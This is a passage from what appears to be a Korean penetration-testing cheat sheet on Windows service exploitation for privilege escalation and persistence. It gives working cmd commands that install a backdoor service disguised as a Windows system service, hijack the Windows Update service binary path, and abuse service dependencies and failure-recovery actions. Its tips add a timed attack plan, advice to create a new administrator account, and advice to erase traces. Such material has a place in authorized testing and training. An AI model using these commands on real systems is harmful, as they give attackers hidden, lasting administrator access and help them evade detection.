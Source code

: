 ### 💡 서비스 지속성 확보

```cmd
:: 1. 새로운 서비스 생성 (백도어)
sc create BackdoorService binpath= "C:\Windows\Temp\backdoor.exe" start= auto
sc description BackdoorService "Windows System Service"

:: 2. 기존 서비스 수정 (은닉)
sc config "Windows Update" binpath= "C:\Windows\System32\svchost.exe -k netsvcs -p & C:\Windows\Temp\backdoor.exe"

:: 3. 서비스 DLL 교체 (지속성)
:: svchost가 호스팅하는 서비스의 DLL 교체
reg query "HKLM\SYSTEM\CurrentControlSet\Services\ServiceName\Parameters" /v ServiceDll

:: 4. 의존성 서비스 생성
sc create DependencyService binpath= "C:\Windows\Temp\backdoor.exe"
sc config MainService depend= DependencyService

:: 5. 서비스 복구 설정 악용
sc failure VulnerableService reset= 86400 actions= run/60000/run/60000/run/60000
sc failureflag VulnerableService 1
sc failure VulnerableService command= "C:\Windows\Temp\backdoor.exe"
```

## 🚨 중요 참고사항

### ⏰ 시간 관리

- **처음 2분**: Unquoted service path와 기본 서비스 권한 확인
- **다음 3분**: accesschk으로 상세 권한 분석 및 PowerUp 실행
- **추가 2분**: 발견된 취약점에 대한 익스플로잇 시도
- **7분 후**: 서비스 재시작이 필요한 익스플로잇은 시간 고려

### 🎯 성공률 높은 순서

1. **Unquoted Service Path**: 가장 흔하고 확실한 Windows privesc
2. **Service Binary Permissions**: 실행 파일 교체 가능시 거의 확실
3. **Service Permissions**: 서비스 설정 변경 권한 있을 때
4. **DLL Hijacking**: 고급 기법이지만 탐지 어려움
5. **Registry Permissions**: 레지스트리 수정 권한 있을 때

### 🔥 즉시 시도할 것들

- Unquoted service path는 Windows에서 가장 흔한 벡터
- accesschk.exe 다운로드 후 즉시 권한 분석
- PowerUp 실행과 동시에 수동 확인 병행
- 서비스 재시작 권한 없으면 재부팅 대기 고려

### 💡 팁

- 서비스 익스플로잇은 Windows에서 가장 효과적인 privesc 방법
- accesschk.exe는 필수 도구 (Sysinternals에서 다운로드)
- 서비스 재시작이 필요한 경우가 많으므로 시간 고려
- 성공 후 지속성 확보를 위해 새 관리자 계정 생성
- 흔적 제거를 위해 원본 파일 복구나 설정 되돌리기
